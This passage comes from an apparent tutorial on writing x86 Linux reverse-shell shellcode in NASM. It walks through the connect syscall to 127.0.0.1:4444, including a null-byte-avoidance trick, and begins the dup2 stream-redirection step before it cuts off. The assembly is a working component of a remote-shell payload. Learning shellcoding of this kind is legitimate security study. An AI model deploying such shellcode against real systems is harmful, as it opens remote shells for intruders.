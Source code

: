 We check the system call identifier:
```sh
$ cat /usr/include/linux/net.h | grep sys_connect
#define SYS_CONNECT	3		/* sys_connect(2)
```
And also the structure of the expected arguments:
```sh
$ man 2 connect | grep "int connect"
int connect(int sockfd, const struct sockaddr *addr,
                   socklen_t addrlen);
```
NASM code:
```nasm
sys_connect:
	; {C code} --> struct sockaddr_in address;
        ; {C code} --> address.sin_addr.s_addr = inet_addr(TARGET);
        ; {C code} --> address.sin_port = htons(PORT);
        ; {C code} --> address.sin_family = AF_INET;
	; {C code} --> connect(reverse_socket,(struct sockaddr *)&address, sizeof(address));

	; syscall definition
	mov al, 102		; syscall - socketcall
	mov bl, 3		; socketcall type - sys_connect

	; pushing the address struct arguments
	push esi		; pushing 0 (null)
	mov ecx, 0x06050584	; moving the 127.0.0.1 address into ECX (reverse order, becouse of nulls, we have to add value 5 in every place...
	sub ecx, 0x05050505	; ... and then substract value 5 from every place
	push ecx		; pushing TARGET address to the stack
	push word 0x5c11	; PORT = 4444 (change reverse hex value for different port)
	push word 2		; AF_INET = 2
	mov ecx, esp		; directing the stack pointer to address struct arguments
	
	; pushing the sys_connect arguments in reverse order (int reverse_socket, const struct sockaddr *addr, socklen_t addrlen) 
	push 16			; socklen_t addrlen (size) = 16
	push ecx		; const struct sockaddr *addr - stack pointer with struct arguments	
	push edx		; reverse_socket pointer

	mov ecx, esp		; directing the stack pointer to sys_bind() function arguments

	int 128			; syscall execution
```

### sys_dup2() ###
<p style="text-align: justify;">Another syscall, sys_dup2() can be implemented in many ways, for example by using loops. I decided to do it step by step in order to better illustrate the arguments raised. It is worth noting that it is not called from socketcall(), but directly as system syscall.</p>

We check the system call identifier:
```sh
$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
#define __NR_dup2 63
```
And also the structure of the expected arguments:
```sh
$ man 2 dup2 | grep "int dup2"
int dup2(int oldfd, int newfd);
```
NASM code:
```nasm
sys_dup2:
	; {C code} --> dup2(sock,2);
        ; {C code} --> dup2(sock,1);
```